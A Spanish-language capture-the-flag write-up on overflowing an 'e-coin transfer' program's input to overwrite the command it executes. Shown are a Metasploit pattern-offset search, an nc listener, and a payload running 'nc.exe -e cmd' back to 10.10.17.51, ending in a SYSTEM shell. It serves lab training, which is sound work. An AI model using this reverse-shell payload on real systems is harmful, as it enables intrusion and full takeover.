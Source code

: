 ```bash
```

Aqui no parece que estamos frente a un BufferOverflow pero vemos que a partir de una serie de caracteres, sobre escribimos el ejecutable que permite
enviar los e-coins.

1. Creamos un pattern

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 100
    #Output
    Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    ```

1. Lanzamos el ejecutable con esta cadena

    ```bash
    Please enter your super secret 4 digit PIN code to login:
    [$] 0021
    [$] PIN is correct, access granted!
    Please enter the amount of e-coins you would like to transfer:
    [$] Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    [$] Transfering $Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A using our e-coin transfer application.
    [$] Executing e-coin transfer tool: 0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
    ```

1. Miramos el offset

    ```bash
    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -q 0Ab1
    #Output
    [+] Exact match at offset 32
    ```

1. Nos ponemos en escucha por el puerto 443

    ```bash
    rlwrap nc -nlvp 443
    ```

1. Lanzamos el binario con el input malicioso

    ```bash
    python -c 'print "A"*32 + "C:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443"'
    #Output
    AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443

    Please enter your super secret 4 digit PIN code to login:
    [$] 0021
    [$] PIN is correct, access granted!
    Please enter the amount of e-coins you would like to transfer:
    [$] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443
    [$] Transfering $AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAC:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443 using our e-coin transfer application.
    [$] Executing e-coin transfer tool: C:\Users\Cortin\AppData\Local\Temp\nc.exe -e cmd 10.10.17.51 443
    ```

Ya vemos que hemos ganado acceso al systema como `nt authority\system` y podemos ver la flag.
